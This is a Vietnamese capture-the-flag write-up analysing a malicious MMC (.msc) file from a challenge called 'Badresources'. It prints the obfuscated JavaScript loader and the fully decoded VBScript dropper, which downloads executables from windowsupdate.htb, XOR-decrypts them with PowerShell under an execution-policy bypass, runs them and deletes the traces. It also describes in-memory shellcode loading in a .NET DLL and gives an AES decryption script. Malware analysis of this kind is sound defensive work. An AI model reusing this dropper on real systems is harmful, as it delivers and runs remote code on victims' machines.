# Challenge Binary Badresources

## 1. Đầu vào challenge

Đầu vào challenge cung cấp file `wanted.msc`.

Trước hết check loại file file cung cấp.



Biết được đây là file `wanted.msc` là một file XML của Microsoft Management Console (MMC).

### Kiến thức ngoài lề

**XML**(*eXtensible Markup Language*) là một dạng **văn bản có cấu trúc** dùng các **thẻ** để mô tả dữ liệu sao cho máy và người đều đọc được.

**Microsoft Management Console (MMC)** là **khung quản trị của Windows**. Nó là nơi chứa các công cụ quản lý hệ thống gọi là **snap-in**, như:

- Device Manager
- Disk Management
- Event Viewer
- Group Policy
- Services

Mở file và xem nội dung bên trong thấy 1 đoạn dài đang bị obfuscate. Vậy khả năng cao chuỗi bị obfuscate là payload, vậy giờ cần deobfuscate.

Sau khi tra cứu thêm về deobfuscate js tìm được 1 web decobfuscate: `https://obf-io.deobfuscate.io/`



## 2. Deobfuscate lớp JavaScript đầu tiên

Sau khi tra cứu thêm về deobfuscate js tìm được 1 web decobfuscate: `https://obf-io.deobfuscate.io/`



Thu được script:

```javascript
var scopeNamespace = external.Document.ScopeNamespace;
var rootNode = scopeNamespace.GetRoot();
var mainNode = scopeNamespace.GetChild(rootNode);
var docNode = scopeNamespace.GetNext(mainNode);
external.Document.ActiveView.ActiveScopeNode = docNode;
docObject = external.Document.ActiveView.ControlObject;
external.Document.ActiveView.ActiveScopeNode = mainNode;
docObject.async = false;
docObject.loadXML(unescape("%3C%3Fxml%20version%3D%271%2E0%27%3F%3E%0D%0A%3Cstylesheet%0D%0A%20%20%20%20xmlns%3D%22http%3A%2F%2Fwww%2Ew3%2Eorg%2F1999%2FXSL%2FTransform%22%20xmlns%3Ams%3D%22urn%3Aschemas%2Dmicrosoft%2Dcom%3Axslt%22%0D%0A%20%20%20%20xmlns%3Auser%3D%22placeholder%22%0D%0A%20%20%20%20version%3D%221%2E0%22%3E%0D%0A%20%20%20%20%3Coutput%20method%3D%22text%22%2F%3E%0D%0A%20%20%20%20%3Cms%3Ascript%20implements%2Dprefix%3D%22user%22%20language%3D%22VBScript%22%3E%0D%0A%20%20%20%20%3C%21%5BCDATA%5B%0D%0ATpHCM%20%3D%20%22%22%3Afor%20i%20%3D%201%20to%203222%3A%20TpHCM%20%3D%20TpHCM%20%2B%20chr%28Asc%28mid%28%22Stxmsr%24I%7Ctpmgmx%0EHmq%24sfnWlipp0%24sfnJWS0%24sfnLXXT%0EHmq%24wxvYVP50%24wxvYVP60%24wxvYVP70%24wxvWls%7BjmpiYVP%0EHmq%24wxvHs%7BrpsehTexl50%24wxvHs%7BrpsehTexl60%24wxvHs%7BrpsehTexl70%24wxvWls%7BjmpiTexl%0EHmq%24wxvI%7CigyxefpiTexl0%24wxvTs%7BivWlippWgvmtx%0EwxvYVP5%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2i%7Ci%26%0EwxvYVP6%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2hpp%26%0EwxvYVP7%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2i%7Ci2gsrjmk%26%0EwxvWls%7BjmpiYVP%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3%7Berxih2thj%26%0EwxvHs%7BrpsehTexl5%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0EwxvHs%7BrpsehTexl6%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2hpp%26%0EwxvHs%7BrpsehTexl7%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci2gsrjmk%26%0EwxvWls%7BjmpiTexl%24A%24%26G%3E%60Ywivw%60Tyfpmg%60%7Berxih2thj%26%0EwxvI%7CigyxefpiTexl%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0E%0EWix%24sfnWlipp%24A%24GviexiSfnigx%2C%26%5BWgvmtx2Wlipp%26%2D%0EWix%24sfnJWS%24A%24GviexiSfnigx%2C%26Wgvmtxmrk2JmpiW%7DwxiqSfnigx%26%2D%0EWix%24sfnLXXT%24A%24GviexiSfnigx%2C%26QW%5CQP62%5CQPLXXT%26%2D%0E%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl5%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP50%24wxvHs%7BrpsehTexl5%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl6%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP60%24wxvHs%7BrpsehTexl6%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl7%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP70%24wxvHs%7BrpsehTexl7%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvWls%7BjmpiTexl%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvWls%7BjmpiYVP0%24wxvWls%7BjmpiTexl%0EIrh%24Mj%0E%0EwxvTs%7BivWlippWgvmtx%24A%24c%0E%26teveq%24%2C%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%5Fwxvmrka%28JmpiTexl0%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%5Fwxvmrka%28Oi%7DTexl%26%24%2A%24zfGvPj%24%2A%24c%0E%26%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28oi%7D%24A%24%5FW%7Dwxiq2MS2Jmpia%3E%3EViehEppF%7Dxiw%2C%28Oi%7DTexl%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28jmpiGsrxirx%24A%24%5FW%7Dwxiq2MS2Jmpia%3E%3EViehEppF%7Dxiw%2C%28JmpiTexl%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28oi%7DPirkxl%24A%24%28oi%7D2Pirkxl%26%24%2A%24zfGvPj%24%2A%24c%0E%26jsv%24%2C%28m%24A%244%3F%24%28m%241px%24%28jmpiGsrxirx2Pirkxl%3F%24%28m%2F%2F%2D%24%7F%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%28jmpiGsrxirx%5F%28ma%24A%24%28jmpiGsrxirx%5F%28ma%241f%7Csv%24%28oi%7D%5F%28m%24%29%24%28oi%7DPirkxla%26%24%2A%24zfGvPj%24%2A%24c%0E%26%C2%81%26%24%2A%24zfGvPj%24%2A%24c%0E%26%5FW%7Dwxiq2MS2Jmpia%3E%3E%5BvmxiEppF%7Dxiw%2C%28JmpiTexl0%24%28jmpiGsrxirx%2D%26%24%2A%24zfGvPj%0E%0EHmq%24sfnJmpi%0ESr%24Ivvsv%24Viwyqi%24Ri%7Cx%0EWix%24sfnJmpi%24A%24sfnJWS2GviexiXi%7CxJmpi%2C%26G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%260%24Xvyi%2D%0EMj%24Ivv2Ryqfiv%24%40B%244%24Xlir%0E%24%24%24%24%5BWgvmtx2Igls%24%26Ivvsv%24gviexmrk%24Ts%7BivWlipp%24wgvmtx%24jmpi%3E%24%26%24%2A%24Ivv2Hiwgvmtxmsr%0E%24%24%24%24%5BWgvmtx2Uymx%0EIrh%24Mj%0EsfnJmpi2%5BvmxiPmri%24wxvTs%7BivWlippWgvmtx%0EsfnJmpi2Gpswi%0E%0EHmq%24evvJmpiTexlw%0EevvJmpiTexlw%24A%24Evve%7D%2CwxvHs%7BrpsehTexl50%24wxvHs%7BrpsehTexl70%24wxvWls%7BjmpiTexl%2D%0E%0EHmq%24m%0EJsv%24m%24A%244%24Xs%24YFsyrh%2CevvJmpiTexlw%2D%0E%24%24%24%24Hmq%24mrxVixyvrGshi%0E%24%24%24%24mrxVixyvrGshi%24A%24sfnWlipp2Vyr%2C%26ts%7Bivwlipp%241I%7CigyxmsrTspmg%7D%24F%7Dteww%241Jmpi%24G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%241JmpiTexl%24%26%24%2A%24Glv%2C78%2D%24%2A%24evvJmpiTexlw%2Cm%2D%24%2A%24Glv%2C78%2D%24%2A%24%26%241Oi%7DTexl%24%26%24%2A%24Glv%2C78%2D%24%2A%24wxvHs%7BrpsehTexl6%24%2A%24Glv%2C78%2D0%2440%24Xvyi%2D%0E%24%24%24%24%0E%24%24%24%24Mj%24mrxVixyvrGshi%24%40B%244%24Xlir%0E%24%24%24%24%24%24%24%24%5BWgvmtx2Igls%24%26Ts%7BivWlipp%24wgvmtx%24i%7Cigyxmsr%24jempih%24jsv%24%26%24%2A%24evvJmpiTexlw%2Cm%2D%24%2A%24%26%24%7Bmxl%24i%7Cmx%24gshi%3E%24%26%24%2A%24mrxVixyvrGshi%0E%24%24%24%24Irh%24Mj%0ERi%7Cx%0E%0EsfnWlipp2Vyr%24wxvI%7CigyxefpiTexl0%2450%24Xvyi%0EsfnWlipp2Vyr%24wxvWls%7BjmpiTexl0%2450%24Xvyi%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2hpp%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci2gsrjmk%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%26%0E%0EWyf%24Hs%7BrpsehJmpi%2Cyvp0%24texl%2D%0E%24%24%24%24Hmq%24sfnWxvieq%0E%24%24%24%24Wix%24sfnWxvieq%24A%24GviexiSfnigx%2C%26EHSHF2Wxvieq%26%2D%0E%24%24%24%24sfnLXXT2Stir%24%26KIX%260%24yvp0%24Jepwi%0E%24%24%24%24sfnLXXT2Wirh%0E%24%24%24%24Mj%24sfnLXXT2Wxexyw%24A%24644%24Xlir%0E%24%24%24%24%24%24%24%24sfnWxvieq2Stir%0E%24%24%24%24%24%24%24%24sfnWxvieq2X%7Dti%24A%245%0E%24%24%24%24%24%24%24%24sfnWxvieq2%5Bvmxi%24sfnLXXT2ViwtsrwiFsh%7D%0E%24%24%24%24%24%24%24%24sfnWxvieq2WeziXsJmpi%24texl0%246%0E%24%24%24%24%24%24%24%24sfnWxvieq2Gpswi%0E%24%24%24%24Irh%24Mj%0E%24%24%24%24Wix%24sfnWxvieq%24A%24Rsxlmrk%0EIrh%24Wyf%0E%22%2Ci%2C1%29%29%20%2D%20%285%29%20%2B%20%281%29%29%3ANext%3AExecute%20TpHCM%3A%0D%0A%20%20%20%20%5D%5D%3E%0D%0A%20%20%20%20%3C%2Fms%3Ascript%3E%0D%0A%3C%2Fstylesheet%3E"));
docObject.transformNode(docObject);
```

Nhận thấy chuỗi trong `unescape` đang bị url encode, thử url decode xem ra được gì. Cuối cùng thu được VBScript.

## 3. Deobfuscate VBScript

Chú ý vào đoạn này sau khi deobfuscate, phân tích thấy được mỗi kí tự trong chuỗi đang được dịch lùi đi `-5 + 1 = 4` ký tự trong ascii.






Vì vậy đề deobfuscate tiếp đoạn này cần dịch mỗi ký tự lên `4`.



Cuối cùng thu được script cuối:

```vbscript
Dim objShell, objFSO, objHTTP
Dim strURL1, strURL2, strURL3, strShowfileURL
Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePath
Dim strExecutablePath, strPowerShellScript
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
strDownloadPath1 = "C:\Users\Public\csrss.exe"
strDownloadPath2 = "C:\Users\Public\csrss.dll"
strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
strShowfilePath = "C:\Users\Public\wanted.pdf"
strExecutablePath = "C:\Users\Public\csrss.exe"

Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objHTTP = CreateObject("MSXML2.XMLHTTP")

If Not objFSO.FileExists(strDownloadPath1) Then
    DownloadFile strURL1, strDownloadPath1
End If
If Not objFSO.FileExists(strDownloadPath2) Then
    DownloadFile strURL2, strDownloadPath2
End If
If Not objFSO.FileExists(strDownloadPath3) Then
    DownloadFile strURL3, strDownloadPath3
End If
If Not objFSO.FileExists(strShowfilePath) Then
    DownloadFile strShowfileURL, strShowfilePath
End If

strPowerShellScript = _
"param (" & vbCrLf & _
"    [string]$FilePath," & vbCrLf & _
"    [string]$KeyPath" & vbCrLf & _
")" & vbCrLf & _
"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
"$keyLength = $key.Length" & vbCrLf & _
"for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _
"" & vbCrLf & _
"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

Dim objFile
On Error Resume Next
Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
If Err.Number <> 0 Then
    WScript.Echo "Error creating PowerShell script file: " & Err.Description
    WScript.Quit
End If
objFile.WriteLine strPowerShellScript
objFile.Close

Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

Dim i
For i = 0 To UBound(arrFilePaths)
    Dim intReturnCode
    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)

    If intReturnCode <> 0 Then
        WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
    End If
Next

objShell.Run strExecutablePath, 1, True
objShell.Run strShowfilePath, 1, True
objFSO.DeleteFile "C:\Users\Public\csrss.dll"
objFSO.DeleteFile "C:\Users\Public\csrss.exe"
objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
objFSO.DeleteFile "C:\Users\Public\temp.ps1"

Sub DownloadFile(url, path)
    Dim objStream
    Set objStream = CreateObject("ADODB.Stream")
    objHTTP.Open "GET", url, False
    objHTTP.Send
    If objHTTP.Status = 200 Then
        objStream.Open
        objStream.Type = 1
        objStream.Write objHTTP.ResponseBody
        objStream.SaveToFile path, 2
        objStream.Close
    End If
    Set objStream = Nothing
End Sub
```

## 4. Phân tích cơ chế XOR

Phân tích

```powershell
$key = [System.IO.File]::ReadAllBytes($KeyPath)
$fileContent = [System.IO.File]::ReadAllBytes($FilePath)
$keyLength = $key.Length

for ($i = 0; $i -lt $fileContent.Length; $i++) {
    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]
}
```

```vbscript
intReturnCode = objShell.Run("powershell ... -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & _
" -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)
```

- `-KeyPath` luôn nhận `strDownloadPath2`
- mà `strDownloadPath2 = "...\csrss.dll"`
- Vậy `csrss.dll` chính là key

```vbscript
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)
```

PowerShell sẽ chạy lần lượt trên:
- `strDownloadPath1` → `csrss.exe`
- `strDownloadPath3` → `csrss.exe.config`
- `strShowfilePath` → `wanted.pdf`

Rồi mỗi vòng lặp truyền file đó vào `-FilePath`:
- `-FilePath arrFilePaths(i)`

Vậy giờ cần phải tải các file trên để khôi phục lại các artefact mà malware sử dụng, sau đó dùng chính script deobfuscate để XOR giải mã `csrss.exe`, `csrss.exe.config` và `wanted.pdf` bằng khóa `csrss.dll`.

```vbscript
strDownloadPath1 = ".\csrss.exe"
strDownloadPath2 = ".\csrss.dll"
strDownloadPath3 = ".\csrss.exe.config"
strShowfilePath = ".\wanted.pdf"
strExecutablePath = ".\csrss.exe"

Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objHTTP = CreateObject("MSXML2.XMLHTTP")

strPowerShellScript = _
"param (" & vbCrLf & _
"    [string]$FilePath," & vbCrLf & _
"    [string]$KeyPath" & vbCrLf & _
")" & vbCrLf & _
"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
"$keyLength = $key.Length" & vbCrLf & _
"for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _
"}" & vbCrLf & _
"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

Dim objFile
On Error Resume Next
Set objFile = objFSO.CreateTextFile(".\temp.ps1", True)
If Err.Number <> 0 Then
    WScript.Echo "Error creating PowerShell script file: " & Err.Description
    WScript.Quit
End If
objFile.WriteLine strPowerShellScript
objFile.Close

Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

Dim i
For i = 0 To UBound(arrFilePaths)
    Dim intReturnCode
    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File .\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)

    If intReturnCode <> 0 Then
        WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
    End If
Next
```

Sau khi chạy xong, thu được file `temp.ps1`, đồng thời các file `csrss.exe`, `csrss.exe.config` và `wanted.pdf` đã được XOR giải mã. Mở thử từng file được giải mã xong để đọc nọi dung. 

## 5. Lần theo file `.config` 

Thẻ `codeBase` không trỏ tới thư viện cục bộ mà trỏ thẳng tới URL `5f8f9e33bb5e13848af2622b66b2308c.json` trên domain `windowsupdate.htb`.



file pdf và file `csrss.exe` không có nội dung gì quan trọng vì vậy tập trung curl từ đường dẫn trên để lấy file json.

Vậy file json này thực chất là file DLL .NET bị ngụy trang dưới phần mở rộng `.json`. đổi đuôi thành `dll` rồi mở bằng ILSpy xemmm thử nội dung thì



Biết được hàm chính `InitializeNewDomain()` đang gọi hàm `silverquickclam06103()` vì vậy đi tới hàm đó xem nó đang làm gì.





Hàm này giải chuỗi obfuscate để lấy URL, tải payload bằng `DownloadData`, rồi nạp và thực thi payload trực tiếp trong bộ nhớ bằng `VirtualAlloc`, `Marshal.Copy` và `CreateThread`.

## 6. Phân tích hàm deobfuscate trong DLL .NET

Tiếp tục tìm hàm `indigoinnocentbeast26519()` xem nó deobfuscate như nào.





Hàm `indigoinnocentbeast26519()` không trả về URL trực tiếp, mà trước tiên giải chuỗi đầu vào bằng `Convert.FromBase64String`, sau đó truyền dữ liệu này vào hàm `charcoalsleepyadvertisement91853()` để giải mã tiếp và cuối cùng loại bỏ các ký tự null.


Tiếp tục tìm tới phần khai báo của các biến thì phát hiện ra `fuchsiaaromaticmarket70603` và `steelshiveringpark49573` chỉ mới được khai báo dưới dạng `private static byte[]`, chưa thể biết ngay giá trị thật của IV và key.





Nhưng cuối cùng khi tìm kiếm thêm biết được hai biến này được khởi tạo trong static constructor của class. Cụ thể, IV được lấy từ chuỗi `tbbliftalildywic` bằng `Encoding.UTF8.GetBytes`, còn key được tạo từ chuỗi `vudzvuokmioomyialpkyydvgqdmdkdxy` thông qua hàm băm `SHA256`. Đồng thời, chương trình sử dụng chế độ `CipherMode.CBC` và `PaddingMode.Zeros` để giải mã AES.



## 7. Decrypt AES và lấy XML cuối

Vậy flow decrypt + deobfuscate là

`Chuỗi ban đầu -> decode base64 -> decrypt AES-CBC bằng SHA256 của key và byte của IV -> xóa ký tự null`

Script

```python
import base64
import hashlib
from Crypto.Cipher import AES

b64 = "ZzfccaKJB3CrDvOnj/6io5OR7jZGL0pr0sLO/ZcRNSa1JLrHA+k2RN1QkelHxKVvhrtiCDD14Aaxc266kJOzF59MfhoI5hJjc5hx7kvGAFw="
seed = "vudzvuokmioomyialpkyydvgqdmdkdxy"
iv = b"tbbliftalildywic"

key = hashlib.sha256(seed.encode()).digest()
ct = base64.b64decode(b64)
pt = AES.new(key, AES.MODE_CBC, iv).decrypt(ct)

print(pt.rstrip(b"\x00").decode())
```
